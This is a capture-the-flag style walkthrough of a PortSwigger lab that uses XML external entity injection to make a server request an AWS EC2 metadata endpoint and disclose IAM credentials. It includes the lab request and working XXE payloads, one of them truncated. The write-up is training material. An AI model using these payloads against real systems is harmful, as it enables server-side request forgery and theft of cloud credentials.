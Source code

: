 ## Lab-02 Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/27ddd09b-c759-465e-8783-efdf96e96d99)


## Overview :

#### Exploiting XXE to perform SSRF attacks

Aside from retrieval of sensitive data, the other main impact of XXE attacks is that they **can be used to perform server-side request forgery (SSRF)**. This is a potentially serious vulnerability in which the server-side application can be induced to make HTTP requests to any URL that the server can access.

To exploit an XXE vulnerability to perform an SSRF attack, you need to **define an external XML entity using the URL that you want to target**, and **use the defined entity within a data value**. If you can use the defined entity within a data value that is returned in the application's response, then you will be able to view the response from the URL within the application's response, and so gain two-way interaction with the back-end system. If not, then you will only be able to perform blind SSRF attacks (which can still have critical consequences).

In the following XXE example, the external entity will cause the server to make a back-end HTTP request to an internal system within the organization's infrastructure:

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```

## Solution :

> The lab server is running a (simulated) AWS EC2 metadata endpoint at the default URL, which is http://169.254.169.254/

#### Access the EC2 instance -

Clicking on checkstock , a request is sent as follows.

```xml
POST /product/stock HTTP/1.1
Host: 0a6b0074032a636f8001716f00660002.web-security-academy.net
Cookie: session=IO1xzxtsKi3p7KPymgSicKBsVEpCG8sT
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a6b0074032a636f8001716f00660002.web-security-academy.net/product?productId=2
Content-Type: application/xml
Content-Length: 107
Origin: https://0a6b0074032a636f8001716f00660002.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
  <productId>2</productId>
  <storeId>1</storeId>
</stockCheck>
```

First we declare a DOCTYPE with an external entitiy which fetches the url **http://169.254.169.254** from the backend system - `<!DOCTYPE foo [ <!ENTITY aws SYSTEM "http://169.254.169.254/"> ]>`


Then we can try to refer the entitiy `aws` in between the `<productID>` tags to fetch the url & return the response of the application.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/aafdd39a-293e-4afd-b3a6-96a4942ad547)

We can see that it returned `latest` which is the starting path where we can get the **IAM secret access key**.

> http://169.254.169.254/latest/meta-data/iam/security-credentials/ROLE_NAME - Full path that returns the security credentials of that role.

We don't know what is the  **ROLE_NAME** here. So lets first fetch http://169.254.169.254/latest/meta-data/iam/security-credentials/

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY aws SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/"> ]>
 <stockCheck>
  <productId>&aws;</productId>
  <storeId>1</storeId>
</stockCheck>
```

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/b2afb661-82d2-42e9-a495-c7f1a0dca213)

We now got to know that the **ROLE_NAME is admin**. Include admin in the uri & send the request again.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY aws SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin
 <stockCheck>
  <productId>&aws;</productId>
  <storeId>1</storeId>
</stockCheck>
```

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/9bee157e-c2f6-4f47-ad7c-a1b3a1597df6)

Now we got the secret access key from AWS EC2 - `Dzwohf7utghOfHiha9CFLAxKD6LurMKh4QrzaBCE`

And the has been solved.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/886c75d2-26e1-455c-ae34-c62a3b4f9293)












